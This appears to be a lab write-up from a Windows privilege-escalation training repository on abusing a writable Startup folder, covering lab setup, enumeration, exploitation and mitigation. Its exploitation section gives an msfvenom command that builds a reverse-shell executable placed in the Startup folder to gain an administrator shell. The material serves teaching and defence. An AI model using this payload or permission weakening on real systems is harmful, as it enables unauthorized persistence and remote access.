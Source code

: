 # Logon Autostart Execution (Startup Folder)

## Table of Contents

- [Logon Autostart Execution (Startup Folder)](#logon-autostart-execution-startup-folder)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Logon Autostart Execution via Startup Folder is a Windows feature that enables specific programs or scripts to launch automatically when a user logs into the system. This feature allows these programs or scripts to launch automatically without any manual action from the user when the operating system starts up.

Attackers may exploit the Logon Autostart Execution feature by inserting malicious software into the Startup Folder. This enables the malicious code to automatically launch during system startup, potentially granting it elevated privileges. 

## Lab Setup

### Manual Lab Setup

:warning: <b>If you are using Windows 10 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Navigate via File Explorer to the directory which contains StartUp Folder using the following path:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\
```

Outcome:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-1](/Pictures/AutostartStartupFolder-LabSetup-Part1.png)

2) Right click on Startup folder and choose properties option:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-2](/Pictures/AutostartStartupFolder-LabSetup-Part2.png)

3) Choose the 'Security' tab and select the 'Users' group:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-3](/Pictures/AutostartStartupFolder-LabSetup-Part3.png)

4) Assign Full Control or Read and Write permissions to the Users group and then press the 'Apply' button:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-4](/Pictures/AutostartStartupFolder-LabSetup-Part4.png)

### PowerShell Script Lab Setup 

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

To set up the lab with the 'Logon Autostart Execution (Startup Folder)' scenario use the custom PowerShell script named [LogonAutostartExecutionStartupFolder.ps1](/Lab-Setup-Scripts/LogonAutostartExecutionStartupFolder.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\LogonAutostartExecutionStartupFolder.ps1
```

Outcome:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Script](/Pictures/AutostartStartupFolder-LabSetup-Script.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify whether a Windows workstation is vulnerable to the Startup Folder Autoruns issue, you can use the following command from a command prompt:

```
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Outcome:

![AutostartStartupFolder-Manual-Enumeration](/Pictures/AutostartStartupFolder-Manual-Enumeration.png)

### Tool Enumeration

To perform an enumeration of the `Startup Folder Autoruns` vulnerability, you can use accesschk.exe or accesschk64.exe from Sysinternals Suite and execute the following command with appropriate arguments:

```
accesschk.exe /accepteula "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Outcome:

![AutostartStartupFolder-Tool-Enumeration](/Pictures/AutostartStartupFolder-Tool-Enumeration.png)

## Exploitation

1) Use msfvenom to generate a malicious executable (exe) file that can be executed via the booting of the victim's machine:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe
```

2) Transfer the malicious executable file to victim's machine.

3) Move the malicious executable file to 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup'.

Outcome:

![AutostartStartupFolder-Exploitation](/Pictures/AutostartStartupFolder-Exploitation.png)

4) Open a listener on your Kali machine.

5) Reboot the victim's machine and login as Adminstrator:

![Reboot-victim-machine](/Pictures/Reboot-Victim-Machine2.png)

6) Verify the reverse shell on your Kali machine:

![Reverse-Shell-As-Admin-StartupFolderAutoRuns](/Pictures/Reverse-Shell-As-Admin-RegistryAutoRuns.png)

## Mitigation

Properly configured permissions within the Startup Folder act as a preventive measure against unauthorized modifications or executions of files within the directory. This proactive approach effectively reduces the likelihood of malicious programs or scripts launching automatically during system booting.

Moreover, to restore the default permissions of the Startup Folder, utilize the following commands with elevated privileges:

```
takeown /F "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" /A /R /D Y
```

and

```
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" /reset /T /C /Q
```

## References

- [Add an app to run automatically at startup in Windows 10 Microsoft](https://support.microsoft.com/en-us/windows/add-an-app-to-run-automatically-at-startup-in-windows-10-150da165-dcd9-7230-517b-cf3c295d89dd)
- [How To Find the Startup Folder in Windows 10 Softwarekeep](https://softwarekeep.com/help-center/how-to-find-the-startup-folder-in-windows-10)

